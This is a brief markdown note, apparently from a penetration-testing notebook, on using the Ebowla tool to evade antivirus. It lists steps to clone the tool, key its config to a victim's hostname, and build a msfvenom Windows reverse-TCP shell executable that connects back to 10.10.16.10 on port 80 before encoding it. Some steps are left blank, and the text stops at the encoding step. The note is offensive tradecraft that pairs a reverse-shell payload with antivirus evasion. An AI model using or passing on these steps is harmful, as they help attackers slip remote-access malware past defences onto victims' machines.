







# Ebowla

## Ebowla **usage**



* **Get Ebowla AV evasion \(encrypt the executable payload with environment variables\)**

`git clone https://github.com/Genetic-Malware/Ebowla`

* Modify the output \(generic.config\)

`root@thp3:/opt/Ebowla# vi genetic.config`

* Check victim hostname:

* Edit generic.config

**to**

* Create a msfvenom payload \(staged -&gt; can be used with netcat ...\)

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=80 -a x64 -f -o shell80.exe`

* Encode the payload with Ebowla :

